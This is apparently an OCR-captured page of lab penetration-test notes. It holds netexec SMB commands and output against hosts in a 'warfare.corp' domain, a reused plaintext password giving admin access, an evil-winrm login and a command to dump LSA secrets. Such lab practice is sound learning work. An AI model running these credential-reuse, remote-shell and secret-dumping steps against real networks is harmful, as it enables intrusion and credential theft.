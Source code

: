 ```bash
---------------------------------------------------------------------------------------------------------------------------------------------------------------------


netexec  smb 192.168.98.2                      
SMB         192.168.98.2    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:warfare.corp) (signing:True) (SMBv1:False) 



netexec --verbose smb 192.168.98.120 -u john -p User1@#$%6
192.168.98.2



---------------------------------------------------------------------------------------------------------------------------------------------------------------------

[+] Host activo: 192.168.98.30


└─$ netexec  smb 192.168.98.30 -u john -p 'User1@#$%6'                                     
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False) 
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)



└─$ netexec  smb 192.168.98.30 -u john -p 'User1@#$%6'                                     
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False) 
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)
                                                                                                     


---------------------------------------------------------------------------------------------------------------------------------------------------------------------
[+] Host activo: 192.168.98.120


┌──(kali㉿kali)-[~/Downloads]
└─$ netexec  smb 192.168.98.120                        
SMB         192.168.98.120  445    CDC              [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False) 


                                             
┌──(kali㉿kali)-[~/Downloads]
└─$ netexec  smb 192.168.98.120 -u john -p 'User1@#$%6'  
SMB         192.168.98.120  445    CDC              [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False) 
SMB         192.168.98.120  445    CDC              [+] child.warfare.corp\john:User1@#$%6 




└─$ evil-winrm -i 192.168.98.30 -u john -p 'User1@#$%6'                                 



└─$ netexec --verbose smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa

```